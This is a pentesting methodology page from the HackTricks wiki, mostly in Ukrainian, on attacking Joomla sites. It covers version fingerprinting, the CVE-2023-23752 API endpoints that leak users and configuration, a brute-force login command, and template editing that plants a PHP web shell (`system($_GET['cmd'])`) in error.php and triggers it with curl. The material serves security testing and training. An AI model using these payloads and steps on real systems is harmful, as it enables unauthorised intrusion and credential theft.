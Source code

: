 # Joomla

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Joomla Statistics

Joomla збирає деякі анонімні [статистичні дані](https://developer.joomla.org/about/stats.html), такі як розподіл версій Joomla, PHP та бази даних, а також операційних систем серверів, що використовуються в установках Joomla. Ці дані можна запитувати через їхній публічний [API](https://developer.joomla.org/about/stats/api.html).
```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool

{
"data": {
"cms_version": {
"3.0": 0,
"3.1": 0,
"3.10": 6.33,
"3.2": 0.01,
"3.3": 0.02,
"3.4": 0.05,
"3.5": 12.24,
"3.6": 22.85,
"3.7": 7.99,
"3.8": 17.72,
"3.9": 27.24,
"4.0": 3.21,
"4.1": 1.53,
"4.2": 0.82,
"4.3": 0,
"5.0": 0
},
"total": 2951032
}
}
```
## Enumeration

### Discovery/Footprinting

* Перевірте **meta**
```bash
curl https://www.joomla.org/ | grep Joomla | grep generator

<meta name="generator" content="Joomla! - Open Source Content Management" />
```
* robots.txt
```
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
[...]
```
* README.txt
```
1- What is this?
* This is a Joomla! installation/upgrade package to version 3.x
* Joomla! Official site: https://www.joomla.org
* Joomla! 3.9 version history - https://docs.joomla.org/Special:MyLanguage/Joomla_3.9_version_history
* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/staging
```
### Версія

* У **/administrator/manifests/files/joomla.xml** ви можете побачити версію.
* У **/language/en-GB/en-GB.xml** ви можете отримати версію Joomla.
* У **plugins/system/cache/cache.xml** ви можете побачити приблизну версію.

### Автоматичний
```bash
droopescan scan joomla --url http://joomla-site.local/
```
In[ **80,443 - Pentesting Web Methodology є розділом про CMS сканери**](./#cms-scanners), які можуть сканувати Joomla.

### API Неавтентифіковане Розкриття Інформації:

Версії від 4.0.0 до 4.2.7 вразливі до неавтентифікованого розкриття інформації (CVE-2023-23752), яке виведе облікові дані та іншу інформацію.

* Користувачі: `http://<host>/api/v1/users?public=true`
* Конфігураційний файл: `http://<host>/api/index.php/v1/config/application?public=true`

**MSF Модуль**: `scanner/http/joomla_api_improper_access_checks` або ruby скрипт: [51334](https://www.exploit-db.com/exploits/51334)

### Брутфорс

Ви можете використовувати цей [скрипт](https://github.com/ajnik/joomla-bruteforce) для спроби брутфорсу входу.
```shell-session
sudo python3 joomla-brute.py -u http://joomla-site.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin

admin:admin
```
## RCE

Якщо вам вдалося отримати **адміністративні облікові дані**, ви можете **RCE всередині нього**, додавши фрагмент **PHP коду** для отримання **RCE**. Ми можемо зробити це, **налаштувавши** **шаблон**.

1. **Натисніть** на **`Templates`** внизу зліва під `Configuration`, щоб відкрити меню шаблонів.
2. **Натисніть** на назву **шаблону**. Виберемо **`protostar`** під заголовком стовпця `Template`. Це перенесе нас на сторінку **`Templates: Customise`**.
3. Нарешті, ви можете натиснути на сторінку, щоб відкрити **джерело сторінки**. Виберемо сторінку **`error.php`**. Додамо **PHP однорядник для отримання виконання коду** наступним чином:
1. **`system($_GET['cmd']);`**
4. **Зберегти та закрити**
5. `curl -s http://joomla-site.local/templates/protostar/error.php?cmd=id`

## Від XSS до RCE

* [**JoomSploit**](https://github.com/nowak0x01/JoomSploit): Скрипт експлуатації Joomla, який **підвищує XSS до RCE або інших критичних вразливостей**. Для отримання додаткової інформації перегляньте [**цей пост**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Він забезпечує **підтримку версій Joomla 5.X.X, 4.X.X та 3.X.X, і дозволяє:**
* _**Підвищення привілеїв:**_ Створює користувача в Joomla.
* _**(RCE) Вбудоване редагування шаблонів:**_ Редагує вбудовані шаблони в Joomla.
* _**(Користувацькі) Користувацькі експлойти:**_ Користувацькі експлойти для сторонніх плагінів Joomla.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
